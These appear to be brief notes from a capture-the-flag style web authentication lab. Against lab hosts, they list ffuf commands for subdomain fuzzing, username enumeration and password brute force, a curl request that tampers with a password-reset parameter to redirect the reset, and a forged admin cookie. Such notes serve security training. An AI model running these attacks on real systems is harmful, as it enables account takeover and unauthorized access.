 ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213 -fs {size}q

```shell-session
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213
```

same usernames check
```shell-session
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/signup -mr "username already exists"
```

using valid_usernames.txt to brute force
```shell-session
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/login -fc 200
```

curl 'http://10.10.5.155/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=azim@customer.acmeitsupport.thm'

```shell-session
curl -H "Cookie: logged_in=true; admin=true" http://10.10.5.155/cookie-test
```